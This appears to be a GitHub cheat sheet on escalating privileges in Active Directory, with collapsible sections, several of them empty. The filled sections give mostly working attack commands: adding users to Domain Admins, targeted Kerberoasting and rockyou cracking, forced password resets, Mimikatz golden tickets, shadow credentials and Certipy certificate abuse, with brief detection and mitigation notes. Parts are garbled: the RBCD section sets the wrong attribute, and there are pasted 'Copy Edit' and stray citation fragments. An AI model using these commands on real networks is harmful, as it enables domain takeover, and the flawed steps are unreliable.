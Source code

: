 <details>
<summary> DACL/ACL-Based Escalation (GenericAll / WriteDACL / WriteProperty)</summary>
 <br> 
Exploiting “Generic ALL” Privilege
 
***User Own Generic All Right for Group***
 Assuming the Red Teamer knows the credential for Users as a Standard Domain Users and would like to enumerate the other Domain users & Admin members with the help of “net-rpc” Samba command line Utility.
 
    net rpc user -U <domain>/<user>%'<Password>' -S <DC ip>
    net rpc group members "Domain Admins" -U <domain>/<user>%'<Password>' -S <DC ip>
Bloodhound -Hunting for Weak Permission
Use BloodHound to Confirm Privileges: You can use BloodHound to verify that Komal has the Generic ALL right on the Domain Admins group.

    bloodhound-python -u <user> -p <Password> -ns <dc ip> -d <domain-name> -c All
Thus it has shown the User has Generic ALL privilege to Domain Admin group and provided steps for exploitation to be proceed. 

Method for Exploitation – Account Manipulation
1. Linux Net RPC – Samba
The tester can abuse this permission by Komal User into Domain Admin group and list the domain admin members to ensure that Komal Users becomes Domain Admin.

       net rpc group addmem "Domain Admins" "<user>" -U <domain-name>/<user>%'<Password>' -S <dc-ip>
 
2. Linux Bloody AD
   
       bloodyAD --host "<dc-ip>" -d "<domain-name>" -u "<user>" -p "<Password>" add groupMember "Domain Admins" "<user>"
 Thus, from the user property we can see user has become a member of domain admin. 
3. Windows Net command

    net group "domain admins" <user> /add /domain

***User’s own generic Right for another user*** 
Bloodhound -Hunting for Weak Permissions

    bloodhound-python -u <A-user> -p <Password> -ns <DC-Ip> -d <Domain-name> -c All
 From the graph, it can be observed that the A user owns generic all privileges on B user.
 
***Cloning the Targeted Kerberoast Tool***
To perform this attack, first, clone the targetedKerberoast repository from GitHub using the following command:

    git clone https://github.com/ShutdownRepo/targetedKerberoast.git

    ./targetedKerberoast.py --dc-ip '<DC ip>' -v -d '<Domain name>' -u '<A user>' -p '<Password>'
This type of attack is ideally best when the attacker is not willing to change the password for the target user <B user in our case>, even generic all privilege is enabled for the compromised user. Yes, this step is less noisy than changing the password of any user.
Further, with the help of John the Ripper and a dictionary such as Rock You can help the attacker to brute force the weak password.

       john -w=/usr/share/wordlist/rockyou.txt hash

***Change Password**
Linux Net RPC – Samba

    net rpc password vipin 'Password@987' -U ignite.local/nishant%'Password@1' -S 192.168.1.8

Linux Net RPC – BloodAD

    bloodyAD --host "<DC-ip>" -d "<Domain-name>" -u "<a user>" -p "<Password>" set password "<B user>" "<Password>"

Linux Net RPC –Rpcclient

    rpcclient -U <Domain name>/<A user> <DC IP>
    setuserinfo <B user> 23 <Password>

Windows Net Utility

    net user <B user> <Password> /domain

Windows PowerShell -Powerview

    $SecPassword = ConvertTo-SecureString '<Password>' -AsPlainText -Force
    $Cred = New-Object System.Management.Automation.PSCredential('<domain name B user>', $SecPassword)

Windows PowerShell

    $NewPassword = ConvertTo-SecureString '<Password>' -AsPlainText -Force
    Set-DomainUserPassword -Identity '<b user>' -AccountPassword $NewPassword
</details>
<details>
<summary>AdminSDHolder Abuse</summary>
 <br>  
The AdminSDHolder object enforces consistent ACLs on protected groups (like Domain Admins). If you can alter its ACL, the change propagates via SDProp to all members 

🔍 Detection
Search for AdminSDHolder ACLs:

powershell

    Get-ADUser -LDAPFilter "(AdminCount=1)" ...
    Get-ACL "AD:CN=AdminSDHolder,CN=System,DC=domain,DC=com"
⚙️ Exploitation

powershell

    Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,...' -PrincipalSamAccountName attacker -Rights All
You’ll gain long-term privileged membership.

🛡️ Mitigation

Restrict ACL modifications on AdminSDHolder.

Monitor event logs for changes (event IDs 4662, 4670).
</details>
<details>
<summary>Resource-Based Constrained Delegation (RBCD) Abuse</summary>
 <br> 

Control over a computer object plus delegation rights can allow you to impersonate users to services—escalating to SYSTEM or DC-level access via Kerberos ticket forging.

🔍 Detection
Use BloodHound to detect AllowedToDelegateTo paths. Query with:

powershell

    Get-ADComputer -Properties msDS-AllowedToDelegateTo
⚙️ Exploitation
Create a computer account (e.g. attacker$) and set delegation rights:

powershell

    Set-ADComputer target$ -Add @{msDS-AllowedToDelegateTo='attacker$'}
Then issue Kerberos tickets with Rubeus or Impacket.

🛡️ Mitigation

Limit delegation rights.

Audit msDS-AllowedToDelegateTo attributes.

Disable unconstrained delegation unless required.
</details>
<details>
<summary>Shadow Credentials</summary>
 <br> 

If you can write to the msDS-KeyCredentialLink attribute on an object, you can create a "shadow credential" (certificate) to authenticate as them via Kerberos PKINIT without needing passwords 
HADESS

🔍 Detection
Check write permissions on this attribute via BloodHound or PowerView:

powershell

    Get-ACL object | Select-Object rights
⚙️ Exploitation
Use Whisker.exe:

powershell

    Whisker.exe add /target:CompAccount$
Then obtain TGT via certificate-based authentication with Rubeus.

🛡️ Mitigation

Disable unnecessary write access to msDS-KeyCredentialLink.

Monitor certificate enrollment events.

Enforce Windows ≥2016 with Kerberos protections.
</details>
<details>
<summary>SID History Injection</summary>
 <br> 

If you can modify SIDHistory (or have KRBTGT hash), you can inject high-privilege SIDs into your account and forge golden tickets for domain admin access.

🔍 Detection
Check SIDHistory values via ADSI or BloodHound.

⚙️ Exploitation
Use Mimikatz:

powershell

    kerberos::golden /user:attacker /sid:<DA_SID> 
Forge TGT tickets to escalate.

🛡️ Mitigation

Monitor creation of unusual tickets or SIDHistory changes (Event ID 4720/4732).

Secure KRBTGT hash with frequent password resets.
</details>
<details>
<summary>Trust Exploitation / Foreign Security Principals Abuse</summary>
 <br>
 Trust Exploitation / Foreign Security Principals Abuse

In multi-domain or multi-forest environments, trust misconfigurations allow abused FSP entries from other realms to escalate via cross-domain ACLs.

🔍 Detection
BloodHound shows trust paths and unresolved SIDs.

⚙️ Exploitation
Add FSP SID from trusted domain into a privileged group using ACL editing.

🛡️ Mitigation

Enable SID filtering.

Validate cross-domain ACLs for resolved accounts only.
</details>
<details>
<summary>gMSA Password Disclosure</summary>
 <br>
 gMSA Password Disclosure

If you can read msDS-ManagedPassword, you can retrieve the machine account password of a Group Managed Service Account to impersonate it.

🔍 Detection
Check ACL on gMSA:

powershell

    Get-ADServiceAccount gmsa -Properties msDS-ManagedPassword
ConvertFrom-ADManagedPasswordBlob ...
⚙️ Exploitation
With ReadGMSAPassword rights, extract credentials via PowerShell (ConvertFrom-ADManagedPasswordBlob).

🛡️ Mitigation

Restrict read ACLs for these attributes.

Monitor gMSA password retrieval events.
</details>
<details>
<summary>Golden Ticket Forgery (KRBTGT compromise)</summary>
 <br>
If you can extract KRBTGT NTLM hash (e.g. via DCSync), you can issue valid TGTs for any domain user—including Domain Admins—without contacting KDC.

🔍 Detection
Monitor long-lifetime TGT events (Event ID 4768) or hash extraction attempts.

⚙️ Exploitation
Use Mimikatz:

powershell

    kerberos::golden /user:Administrator /krbtgt:<hash> /domain:domain.com
Inject ticket with /ptt.

🛡️ Mitigation

Periodically reset KRBTGT twice.

Monitor DCSync and TGT creation anomalies.
</details>
<details>
<summary>Kerberoasting</summary>
<br>
</details>

<details>
<summary>AS-REP Roasting</summary>
<br>
</details>

<details>
<summary>Silver Ticket (Forged TGS)</summary>
<br>
</details>


<details>
<summary>DCSync / Replication Attacks</summary>
<br>
</details>

<details>
<summary>Unconstrained Delegation Abuse</summary>
<br>
</details>

<details>
<summary>Constrained Delegation Abuse</summary>
<br>
</details>





<details>
<summary>DACL/ACL-Based Escalation via DCOM / WMI / RDP</summary>
<br>
</details>

<details>
<summary>Group Policy Preferences (GPP) Passwords</summary>
<br>
</details>


<details>
<summary>Printer Bug / NTLM Relay via Print Spooler</summary>
<br>
</details>

<details>
<summary>Pass-the-Hash</summary>
<br>
</details>

<details>
<summary>Pass-the-Ticket</summary>
<br>
</details>

<details>
<summary>Overpass-the-Hash</summary>
<br>
</details>

<details>
<summary>DCShadow Attack</summary>
<br>
</details>

<details>
<summary>LAPS Password Disclosure</summary>
<br>
</details>

<details>
<summary>Kerberos Key Distribution Center (KDC) Spoofing</summary>
<br>
</details>

<details>
<summary>Certificate Services Abuse (e.g., ESC1–ESC8)</summary>
<br>

Abusing Certificate Templates or CA permissions can allow low-privilege users to enroll certs for high-risk purposes (e.g. escrow, domain authentication), leading to full domain compromise 

🔍 Detection

Use certipy, bloodhound or certify to enumerate templates and CA ACLs.

Check for templates that allow enrollment to Authenticated Users.

⚙️ Exploitation
Certipy or PowerView:

powershell
Copy
Edit
Certipy find
Certipy enroll attacker -template vulnerableTemplate
Use resulting certificate to authenticate via PKINIT.

🛡️ Mitigation

Secure template ACLs (use principle of least privilege).

Require CA manager approval for templates.

Monitor certificate issuance logs.
</details>
